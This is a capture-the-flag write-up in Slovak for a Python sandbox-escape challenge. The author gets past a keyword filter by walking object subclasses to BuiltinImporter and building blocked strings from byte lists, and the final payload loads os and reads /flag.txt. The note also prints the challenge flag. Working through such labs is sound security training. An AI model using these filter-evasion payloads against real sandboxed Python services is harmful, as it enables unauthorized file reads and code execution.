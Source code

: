 # Zadanie #

> Hi, TCC-CSIRT analyst,
> 
> snakes are wonderful creatures, and everyone loves them. Many people enjoy playing with snakes and find them fascinating companions. One on them lives on **`snakegame.leisure.tcc`** on port **`23001/TCP`**.
> 
> See you in the next incident!
> 
> **Hint1:**
> The snake is actually a python.


----------

# Riešenie #

Tu je jasné, že sa pripojíme na server pomocou príkazu ncat snakegame.leisure.tcc 23001. Po pripojení dostaneme hlášku s promptom na zadanie zrejme nejakého príkazu, resp python kódu.

    Hello, I can only speak Python, show me your code.
    Enter your code : 

Skúsil som pár príkazov, kde vidno, že je tam mnoho obmedzení, nepozná to print, zakázané je exec a pod.

    Enter your code : print("hello")                                                                                                                                                              I'm confused - name 'print' is not defined 
	
	Enter your code : exec("cat /etc/passwd")                                                                                                                                                     This is not allowed: exec  

	Hello, I can only speak Python, show me your code.
	Enter your code : "ahoj"

	Enter your code : "".join(["f","l","a","g"])                                                                                                                                                  This is not allowed: "" 

	Enter your code : 'ahoj'                                                                                                                                                                      This is not allowed: '   

	Enter your code : 1/0                                                                                                                                                                         I'm confused - division by zero 

	Enter your code : ().__subclasses__()                                                                                                                                                         I'm confused - 'tuple' object has no attribute '__subclasses__' 

	Enter your code : ().class.base.subclasses()                                                                                                                                                  I'm confused - invalid syntax (<string>, line 1) 

	Enter your code : (1).__class__.__base__                                                                                                                                                      <class 'object'>
	
Tu už to začína byť zaujímavé, ide teda nejakú formu python code injection. Po pár pokusoch sa mi poradilo vylistovať subclassy

	Enter your code : (1).__class__.__base__.__subclasses__()                                                                                                                                     [<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>, <class 'bytes'>, <class 'builtin_function_or_method'>, <class 'callable_iterator'>, <class 'PyCapsule'>, <class 'cell'>, <class 'classmethod_descriptor'>, <class 'classmethod'>, <class 'code'>, <class 'complex'>, <class '_contextvars.Token'>, <class '_contextvars.ContextVar'>, <class '_contextvars.Context'>, <class 'coroutine'>, <class 'dict_items'>, <class 'dict_itemiterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'dict_keys'>, <class 'mappingproxy'>, <class 'dict_reverseitemiterator'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_values'>, <class 'dict'>, <class 'ellipsis'>, <class 'enumerate'>, <class 'filter'>, <class 'float'>, <class 'frame'>, <class 'frozenset'>, <class 'function'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'instancemethod'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'list'>, <class 'longrange_iterator'>, <class 'int'>, <class 'map'>, <class 'member_descriptor'>, <class 'memoryview'>, <class 'method_descriptor'>, <class 'method'>, <class 'moduledef'>, <class 'module'>, <class 'odict_iterator'>, <class 'pickle.PickleBuffer'>, <class 'property'>, <class 'range_iterator'>, <class 'range'>, <class 'reversed'>, <class 'symtable entry'>, <class 'iterator'>, <class 'set_iterator'>, <class 'set'>, <class 'slice'>, <class 'staticmethod'>, <class 'stderrprinter'>, <class 'super'>, <class 'traceback'>, <class 'tuple_iterator'>, <class 'tuple'>, <class 'str_iterator'>, <class 'str'>, <class 'wrapper_descriptor'>, <class 'zip'>, <class 'types.GenericAlias'>, <class 'anext_awaitable'>, <class 'async_generator_asend'>, <class 'async_generator_athrow'>, <class 'async_generator_wrapped_value'>, <class 'Token.MISSING'>, <class 'coroutine_wrapper'>, <class 'generic_alias_iterator'>, <class 'items'>, <class 'keys'>, <class 'values'>, <class 'hamt_array_node'>, <class 'hamt_bitmap_node'>, <class 'hamt_collision_node'>, <class 'hamt'>, <class 'InterpreterID'>, <class 'managedbuffer'>, <class 'memory_iterator'>, <class 'method-wrapper'>, <class 'types.SimpleNamespace'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'str_ascii_iterator'>, <class 'types.UnionType'>, <class 'weakref.CallableProxyType'>, <class 'weakref.ProxyType'>, <class 'weakref.ReferenceType'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, <class 'formatteriterator'>, <class 'BaseException'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread.lock'>, <class '_thread.RLock'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_io._IOBase'>, <class '_io.IncrementalNewlineDecoder'>, <class '_io._BytesIOBuffer'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external.NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_abc._abc_data'>, <class 'abc.ABC'>, <class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, <class 'collections.abc.Iterable'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, <class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>, <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>, <class '_distutils_hack._TrivialRe'>, <class '_distutils_hack.DistutilsMetaFinder'>, <class '_distutils_hack.shim'>, <class 'types.DynamicClassAttribute'>, <class 'types._GeneratorWrapper'>, <class 'operator.attrgetter'>, <class 'operator.itemgetter'>, <class 'operator.methodcaller'>, <class 'itertools.accumulate'>, <class 'itertools.combinations'>, <class 'itertools.combinations_with_replacement'>, <class 'itertools.cycle'>, <class 'itertools.dropwhile'>, <class 'itertools.takewhile'>, <class 'itertools.islice'>, <class 'itertools.starmap'>, <class 'itertools.chain'>, <class 'itertools.compress'>, <class 'itertools.filterfalse'>, <class 'itertools.count'>, <class 'itertools.zip_longest'>, <class 'itertools.pairwise'>, <class 'itertools.permutations'>, <class 'itertools.product'>, <class 'itertools.repeat'>, <class 'itertools.groupby'>, <class 'itertools._grouper'>, <class 'itertools._tee'>, <class 'itertools._tee_dataobject'>, <class 'reprlib.Repr'>, <class 'collections.deque'>, <class '_collections._deque_iterator'>, <class '_collections._deque_reverse_iterator'>, <class '_collections._tuplegetter'>, <class 'collections._Link'>, <class 'functools.partial'>, <class 'functools._lru_cache_wrapper'>, <class 'functools.KeyWrapper'>, <class 'functools._lru_list_elem'>, <class 'functools.partialmethod'>, <class 'functools.singledispatchmethod'>, <class 'functools.cached_property'>, <class 'enum.nonmember'>, <class 'enum.member'>, <class 'enum._auto_null'>, <class 'enum.auto'>, <class 'enum._proto_member'>, <enum 'Enum'>, <class 'enum.verify'>, <class 're.Pattern'>, <class 're.Match'>, <class '_sre.SRE_Scanner'>, <class 're._parser.State'>, <class 're._parser.SubPattern'>, <class 're._parser.Tokenizer'>, <class 're.RegexFlag'>, <class 're.Scanner'>, <class 'string.Template'>, <class 'string.Formatter'>]

všetky trie som si prepísal do tabuľky, aby som vedel indexy a začala zábava. Zaujila ma trieda `<class '_frozen_importlib.BuiltinImporter'>`

    Enter your code : ().__class__.__base__.__subclasses__()[107].__doc__ Meta path import for built-in modules.  All methods are either class or static methods to avoid the need to   instantiate the class. 

Vieme teda pracovať z classami a nejaké jednoduché veci s nimi robiť, skúsim importnuť "os" modul

    Enter your code : ().__class__.__base__.__subclasses__()[107].load_module("os").listdir() This is not allowed: os 

Takže ani os nemožeme použiť priamo, je tam na pozadí nejaky pomerne agresívny filter, úvodzovky možeme použiť, ale zrejme len v niektorých prípadov.. Zaujímava class je aj s indexom 5 `<class 'bytes_iterator'>` , po pár pokusoch sa mi podarilo obabrať systém a dokáže pracovať aj so stringami aké chcem

	Enter your code : ().__class__.__base__.__subclasses__()[5](i for i in [111,115]).decode()                                                                                                    os 

Skúsim loadnuť modul os teda obfuskovaným spôsobom a použijem os.listdir()

	Enter your code : ().__class__.__base__.__subclasses__()[107].load_module(().__class__.__base__.__subclasses__()[5](i for i in [111,115]).decode()).listdir()
	['start.sh', '.bashrc', 'venv', 'search-in-root-directory.hint', 'bin']

Heurééééka, viem už teda printnuť obsahy priečinkov, skúsime nazrieť do priečinka "/"

    Enter your code : ().__class__.__base__.__subclasses__()[107].load_module(().__class__.__base__.__subclasses__()[5](i for i in [111,115]).decode()).listdir(().__class__.__base__.__subclasses__()[5](i for i in [47]).decode())['root', 'sbin', 'proc', 'media', 'sys', 'home', 'tmp', 'srv', 'usr', 'mnt', 'etc', 'dev', 'boot', 'lib64', 'lib', 'run', 'bin', 'var', 'opt', 'flag.txt', '.dockerenv', 'entrypoint.sh']  

Tu už vidíme vlajku, resp súbor z vlajkou. Posledný krok ostáva, ako vlajku printnúť. Pozrieme dokumentáciu os modulu, poznáme os.listdir(), pohľadáme niečo užitočné, napríklad open
    
    Enter your code : ().__class__.__base__.__subclasses__()[107].load_module(().__class__.__base__.__subclasses__()[5](i for i in [111,115]).decode()).open(().__class__.__base__.__subclasses__()[5](i for i in [47,102,108,97,103,46,116,120,116]).decode()) This is not allowed: open 

Ďalší filter mi to prekazil, open  je zakázané, je treba nájsť iný prístup

    Enter your code : ().__class__.__base__.__subclasses__()[107].load_module(().__class__.__base__.__subclasses__()[5](i for i in [111,115]).decode()).read(().__class__.__base__.__subclasses__()[5](i for i in [47,102,108,97,103,46,116,120,116]).decode()) I'm confused - read expected 2 arguments, got 1  

Očividne možeme použiť read, akurát tam treba navkladať ďalšie argumenty.. Po dôkladnej analýze dokumentácie os modulu paythonu a priíkazu read, potrebujem zadať niečo takéto 

**`os.read(os.open("/flag.txt", os.O_RDONLY), 100)`**

Pri týchto obmedzeniach to bude niečo takéto 

**`BuiltinImporter.load_module("os").read(BuiltinImporter.load_module("os").open("/flag.txt", BuiltinImporter.load_module("os").O_RDONLY), 25)`**

	Enter your code : ().__class__.__base__.__subclasses__()[107]().load_module(().__class__.__base__.__subclasses__()[5](i for i in [111, 115]).decode()).__dict__[().__class__.__base__.__subclasses__()[5](i for i in [114, 101, 97, 100]).decode()](().__class__.__base__.__subclasses__()[107]().load_module(().__class__.__base__.__subclasses__()[5](i for i in [111, 115]).decode()).__dict__[().__class__.__base__.__subclasses__()[5](i for i in [111, 112, 101, 110]).decode()](().__class__.__base__.__subclasses__()[5](i for i in [47, 102, 108, 97, 103, 46, 116, 120, 116]).decode(), ().__class__.__base__.__subclasses__()[107]().load_module(().__class__.__base__.__subclasses__()[5](i for i in [111, 115]).decode()).O_RDONLY), 1000)
	b'FLAG{lY4D-GJaQ-VUks-PNQd}\n'

BINGO! Je to tam. Vlajka je na svete





----------

## Vlajka ##
    FLAG{lY4D-GJaQ-VUks-PNQd}